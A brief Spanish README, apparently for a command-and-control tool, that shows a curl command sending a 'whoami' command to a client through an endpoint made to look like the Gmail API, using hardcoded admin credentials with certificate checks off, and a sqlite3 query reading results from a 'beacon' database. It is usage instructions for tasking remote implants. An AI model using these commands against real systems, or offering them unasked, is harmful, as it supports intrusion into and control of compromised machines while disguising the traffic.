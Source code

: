 # README

## enviar comando
curl -k -u admin:Pass123 https://<IP>:443/gmail/v1/users/ \
  -d "client_id=<CLIENT_ID>&command=whoami"

## Ver resultado
sqlite3 sessions/beacon.db "SELECT output FROM results WHERE client_id='<CLIENT_ID>' ORDER BY ts DESC LIMIT 1;"

